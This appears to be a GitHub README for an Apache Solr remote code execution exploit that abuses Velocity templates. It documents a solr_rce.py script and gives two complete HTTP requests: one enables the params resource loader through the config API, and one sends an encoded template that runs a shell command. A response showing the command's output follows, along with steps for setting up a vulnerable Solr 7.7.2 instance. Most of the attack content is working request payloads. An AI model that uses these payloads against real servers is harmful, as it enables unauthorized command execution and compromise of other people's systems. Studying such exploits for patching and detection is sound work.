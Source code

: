 # Apache Solr RCE via Velocity template

## python usage:

`python solr_rce.py http://192.168.5.86:8983 command`


![](./solr-rce.jpg)

## Attack start


1. Set `params.resource.loader.enabled` as true.

```
Request:
========================================================================
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
========================================================================
```

2. RCE via velocity template

```
Request:
========================================================================
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983
========================================================================


Response:
========================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 56

     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)
========================================================================
```

## 漏洞环境搭建

`https://www.apache.org/dyn/closer.lua/lucene/solr/7.7.2`

`https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.7.2/solr-7.7.2.zip`

#### velocity.solr.resource.loader.enabled:true

`/opt/solr-7.7.2/example/example-DIH/solr/atom/conf/solrconfig.xml`

```
root@kali:/opt/solr-7.7.2/example/example-DIH/solr/atom/conf# cat solrconfig.xml | grep enable
    <enableLazyFieldLoading>true</enableLazyFieldLoading>
    <str name="solr.resource.loader.enabled">${velocity.solr.resource.loader.enabled:true}</str>
    <str name="params.resource.loader.enabled">${velocity.params.resource.loader.enabled:false}</str>
root@kali:/opt/solr-7.7.2/example/example-DIH/solr/atom/conf#
```

## 参考链接：

https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt

